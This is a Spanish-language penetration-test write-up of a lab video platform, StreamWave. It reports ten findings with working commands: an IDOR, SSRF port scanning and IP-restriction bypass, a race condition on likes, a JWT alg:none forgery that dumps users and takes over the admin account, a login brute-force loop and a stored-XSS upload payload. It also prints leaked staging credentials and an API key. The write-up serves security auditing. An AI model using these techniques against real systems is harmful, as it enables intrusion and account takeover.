# 🎬 StreamWave (puerto 9090)

⬅ [WordPress](../wordpress/README.md) · [README principal](../../README.md)

**Estado:** ✅ auditoría completada — 10 hallazgos, incluye el hallazgo más grave de toda la auditoría BigShop (compromiso cruzado de PixelForge) ([ver tabla](../../README.md#-hallazgos-confirmados) · [writeups individuales](../../writeups/))

Plataforma de vídeo tipo YouTube, única de las 4 apps del cliente que no corre sobre Apache/PHP.

## Reconocimiento

```bash
curl -I http://172.17.0.2:9090/
# X-Powered-By: Express
```

Stack **Node.js (Express)**. Cookie de sesión `connect.sid` (`express-session`), con `HttpOnly` — a diferencia de las cookies `PHPSESSID` de las otras 3 apps, que no lo tenían.

Home pública: listado de vídeos, buscador (`q`), filtro por categoría (`?cat=`), selector de idioma (`?language=`), `Upload`, `Favorites`, `Login`/`Register`. Reconocimiento de endpoints mediante uso normal de la app + DevTools:

| Ruta | Método | Función |
|---|---|---|
| `/watch/{id}` | GET | Reproductor de vídeo — público o privado según `visibility` |
| `/upload` | POST | Subida de vídeo |
| `/watch/{id}/comment` | POST | Comentarios |
| `/api/videos/{id}/like`, `/unlike` | POST | "Me gusta" |
| `/api/fetch-thumb` | POST | Genera miniatura a partir de una URL externa |
| `/api/auth/token` | POST | Devuelve un JWT — sistema de auth paralelo a la cookie de sesión |
| `/api/me`, `/api/admin/users` | GET | Perfil / administración, protegidos por JWT |
| `?language=` | GET (query) | Carga fichero de traducciones |

**Patrón de ID de vídeo:** `xy` + 1 letra (`a`-`z`) + 3 dígitos (`000`-`999`) → 26.000 combinaciones, sin distinción entre vídeos públicos y privados.

## Cronología de la auditoría

<details open>
<summary><b>1️⃣ IDOR en /watch/{id} — vídeos "privados" visibles por cualquiera</b></summary>

<br>

StreamWave permite marcar un vídeo como `private` ("only people with the link"). `GET /watch/{id}` no comprueba sesión ni propiedad en ningún momento:

1. Vídeo de control subido como `private` con una cuenta de prueba → ID `xyq431`.
2. Acceso **sin ninguna sesión iniciada** → `200 OK`, vídeo completo, etiqueta "Private" visible en la propia página.

 

Como el ID es corto y predecible (26.000 combinaciones), se automatizó el barrido completo:

```bash
python3 scripts/streamwave_idor_watch_scan.py
```



Resultado, reproducido también desde una segunda máquina atacante independiente (Kali en contenedor Docker separado, `172.17.0.3`): **7 de 7 vídeos privados existentes, accedidos sin autenticación** — el 43,75 % del catálogo (7 de 16 vídeos) es privado, y el 100 % de ese contenido privado es accesible sin ningún control. Incluye material bajo NDA, un informe financiero interno marcado "do not share" subido por la propia cuenta `admin`, y datos personales/familiares.

</details>

<details>
<summary><b>2️⃣ Secretos expuestos en contenido "privado" (credenciales de BD + API key)</b></summary>

<br>

El vídeo privado `xyw404` ("[PRIVATE] password reset demo (contains creds)", subido por `admin`) contiene en su propio fotograma inicial — visible sin reproducirlo — una captura de terminal con credenciales reales de un entorno "staging":



```
DB_USER=admin DB_PASS=Stag1ng$ecret2024 HOST=10.0.1.44
API_KEY=sk_staging_9f3a7b2c1d4e5f6a7b8c9d0e1f2a3b4c
```

Se documenta como hallazgo **independiente** del IDOR (1️⃣): aunque el control de acceso funcionara perfectamente, el problema de fondo persistiría — contenido con secretos reales nunca debió grabarse ni subirse.

**Verificación de reutilización (resultado negativo, documentado por rigor):** `10.0.1.44` queda fuera del rango `172.17.0.0/16` del laboratorio — inalcanzable. Se probó igualmente la contraseña filtrada contra la única BD real del lab (MariaDB local), como `admin` y como `root`: acceso denegado en ambos casos. El host/credenciales del vídeo son contenido "de atrezzo" del escenario, sin cadena confirmada hacia un sistema real en este laboratorio concreto — lo cual no reduce la gravedad de la exposición en sí.

</details>

<details>
<summary><b>3️⃣ 🏆 SSRF en /api/fetch-thumb — escaneo de red interna y bypass de control de acceso por IP</b></summary>

<br>

`POST /api/fetch-thumb` (sesión autenticada, cualquier cuenta) recibe `{"url": "..."}` y hace, server-side, una petición HTTP real a esa URL — pensado para generar una miniatura a partir de un vídeo externo. Sin ninguna restricción de host/puerto/esquema, la respuesta distingue de forma fiable 3 estados del destino: un oráculo de escaneo de puertos.

| Estado real del puerto | Respuesta |
|---|---|
| Abierto, habla HTTP | `{"reachable":true,"status":...}` |
| Abierto, no-HTTP (ej. una BD) | `{"reachable":false,"error":"Parse Error..."}` |
| Cerrado | `{"reachable":false,"error":"ECONNREFUSED..."}` |

```bash
# Pivote al propio contenedor y a las otras 3 apps del cliente
curl -X POST http://172.17.0.2:9090/api/fetch-thumb -b "connect.sid=..." \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:10000/server-status"}'
```

 

**Prueba de impacto real:** `{"url":"http://127.0.0.1:10000/server-status"}` → `200`, con `mod_status` de Apache. Pedido directamente desde fuera, `GET http://172.17.0.2:10000/server-status` devuelve `403` — el SSRF **puentea un control de acceso por IP real**, reproducido en los 3 puertos Apache del cliente.



Automatizado con `scripts/streamwave_ssrf_portscan.py` — barrido completo de los puertos 1-10000 en 13,4s:

```
Abiertos HTTP:      [80, 8080, 9090, 10000]
Abiertos no-HTTP:   [3306]
Cerrados:           9995 puertos

Bypass de control de acceso por IP confirmado:
  127.0.0.1:80/server-status    -> interno=200 vs externo=403
  127.0.0.1:8080/server-status  -> interno=200 vs externo=403
  127.0.0.1:10000/server-status -> interno=200 vs externo=403
```

El hallazgo de StreamWave con mayor alcance: cruza el límite de la propia aplicación y recae sobre las otras 3 apps auditadas, descubriendo además un servicio no expuesto externamente (BD interna en `:3306`).

</details>

<details>
<summary><b>4️⃣ Condición de carrera en likes — manipulación del ranking de Trending</b></summary>

<br>

`POST /api/videos/{id}/like` comprueba si la sesión ya dio "me gusta" antes de incrementar el contador — comprobación y escritura **no atómicas**. Script propio, 50 peticiones concurrentes con la misma sesión:

```bash
python3 scripts/streamwave_like_race_condition.py
```



```
LIKE  -- 50 peticiones concurrentes en 0.21s
  Antes: 410   Despues: 422
  *** CONDICION DE CARRERA CONFIRMADA: +11 de mas ***

UNLIKE -- 50 peticiones concurrentes (mismo video)
  Antes: 422   Despues: 398
  *** CONDICION DE CARRERA CONFIRMADA (bidireccional): -23 de mas ***
```

Pruebas adicionales: 30 peticiones concurrentes → +7; 100 peticiones concurrentes → +10. `/trending` ordena por número de likes: una sola cuenta, sin bots ni multicuenta, infla su propio contenido o desinfla el de otros para manipular ese ranking.

</details>

<details>
<summary><b>5️⃣ 🏆 Bypass de autenticación JWT (alg:none) — dump de usuarios y toma de cuenta admin real</b></summary>

<br>

Además de la cookie de sesión, StreamWave tiene una **API JWT en paralelo** (`/api/me`, `/api/admin/*`, token obtenido en `/api/auth/token`). El servidor acepta tokens con cabecera `{"alg":"none"}` sin firma:

```bash
# Header y payload en Base64URL, sin firma
HEADER='{"alg":"none","typ":"JWT"}'
PAYLOAD='{"role":"admin"}'
TOKEN="$(b64url "$HEADER").$(b64url "$PAYLOAD")."

curl http://172.17.0.2:9090/api/me -H "Authorization: Bearer $TOKEN"
# 200, "role":"admin"

curl http://172.17.0.2:9090/api/admin/users -H "Authorization: Bearer $TOKEN"
# 200 → volcado completo de 18 usuarios, contraseñas en texto plano
```

 



Se confirmó que el control de rol sí funciona con tokens legítimos (sin token → `401`; token legítimo con `role:"user"` → `403`); el fallo está exclusivamente en la verificación de la firma. Entre los 18 usuarios volcados: `admin:streamwave`. Cerrando la cadena:

```bash
curl -X POST http://172.17.0.2:9090/login -d "username=admin&password=streamwave"
# Sesión real válida — confirmado también en el navegador
```



Automatizado end-to-end con `scripts/streamwave_jwt_auth_bypass.py`: forja el token, vuelca usuarios y prueba el login real con la contraseña filtrada en una sola ejecución. De cero credenciales a control total de la cuenta admin en 3 peticiones HTTP. La contraseña filtrada de `admin` es, literalmente, el nombre de la propia plataforma, sin 2FA. **El hallazgo más grave de StreamWave.**

</details>

<details>
<summary><b>6️⃣ CSRF en comentarios — probado en navegador real, no explotable</b></summary>

<br>

`POST /watch/{id}/comment` no lleva token anti-CSRF, el mismo patrón que el CSRF explotable de PenguinWave. La diferencia: la cookie `connect.sid` no fija `SameSite` explícitamente (PenguinWave sí, con `SameSite=None`), por lo que el `Lax` por defecto del navegador bloquea el envío cross-site:

 

PoC idéntico al de PenguinWave (`scripts/streamwave_csrf_comment_poc.html`, formulario auto-submit desde otro origen), probado en navegador real con sesión activa. **El comentario forzado no llegó a publicarse** — confirmado revisando los comentarios del vídeo tras cargar el PoC. Resultado negativo documentado por rigor metodológico, no por asumir impacto sin comprobarlo.

</details>

<details>
<summary><b>7️⃣ Política de contraseñas inexistente y sin rate-limit en /login</b></summary>

<br>

`/register` acepta contraseñas de un solo carácter. `/login` no implementa rate-limit ni bloqueo de cuenta:

```bash
for i in $(seq 1 20); do
  curl -s -o /dev/null -w "%{http_code}\n" -X POST http://172.17.0.2:9090/login \
    -d "username=admin&password=intento$i"
done
# 20 intentos fallidos consecutivos, todos 200, sin throttling
```

Como comprobación positiva: no hay enumeración de usuarios vía `/login` (respuesta idéntica ante usuario inexistente o contraseña incorrecta), y el registro rechaza correctamente usernames duplicados. Impacto práctico eclipsado por el bypass JWT (5️⃣), que ya filtra todas las contraseñas reales — se documenta igualmente por ser una debilidad estructural independiente.

</details>

<details>
<summary><b>8️⃣ Subida de fichero sin restricción de tipo → XSS almacenado same-origin</b></summary>

<br>

`POST /upload` no valida el tipo real del fichero — el `accept="video/*"` del formulario es solo una pista de interfaz, ignorable con curl/Burp. Un fichero `.html` subido se sirve con `Content-Type: text/html`, ejecutando cualquier `<script>` embebido en el origen de StreamWave:

```html
<script>
fetch('/watch/xyt459/comment', {
  method: 'POST', credentials: 'same-origin',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'body=XSS-UPLOAD-SESSION-RIDING-POC'
});
</script>
```

